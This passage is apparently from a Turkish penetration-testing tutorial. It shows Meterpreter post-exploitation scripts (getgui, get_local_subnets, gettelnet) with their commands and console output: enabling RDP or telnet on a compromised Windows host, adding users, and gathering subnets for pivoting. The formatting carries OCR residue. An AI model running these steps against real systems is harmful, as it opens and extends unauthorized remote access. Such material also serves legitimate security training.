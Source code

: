 

`getgui` scripti, hedef bilgisayarda RDP özelliği kapalıysa açmayı sağlar.


```bash
 meterpreter **&gt;** run getgui 

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
**[!]** Example: run post/windows/manage/enable_rdp OPTION**=**value **[**...]
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e        Enable RDP only.
    -f   Forward RDP Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add. meterpreter **&gt;** run getgui -e **[*********]** Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
 **[*********]** Carlos Perez carlos_perez@darkoperator.com
 **[*********]** Enabling Remote Desktop
 **[*********]** RDP is already enabled
 **[*********]** Setting Terminal Services service startup mode
 **[*********]** Terminal Services service is already set to auto
 **[*********]** Opening port **in **local firewall **if **necessary
```



## get_local_subnets



`get_local_subnets` scripti, hedef bilgisayarın yerel subnet bilgilerini elde etmeyi sağlar. Bu bilgiler pivoting işlemlerinde kullanılabilir.


```bash
meterpreter **&gt;** run get_local_subnets 

Local subnet: 10.211.55.0/255.255.255.0
```



## gettelnet



`gettelnet` scripti, hedef bilgisayarda telnet özeliği kapalıysa, açmaya yarar.


```bash
meterpreter **&gt;** run gettelnet 
Windows Telnet Server Enabler Meterpreter Script
Usage: gettelnet -u  -p 

OPTIONS:

    -e        Enable Telnet Server only.
    -f   Forward Telnet Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add.
 
meterpreter **&gt;** run gettelnet -e

**[*********]** Windows Telnet Server Enabler Meterpreter Script
```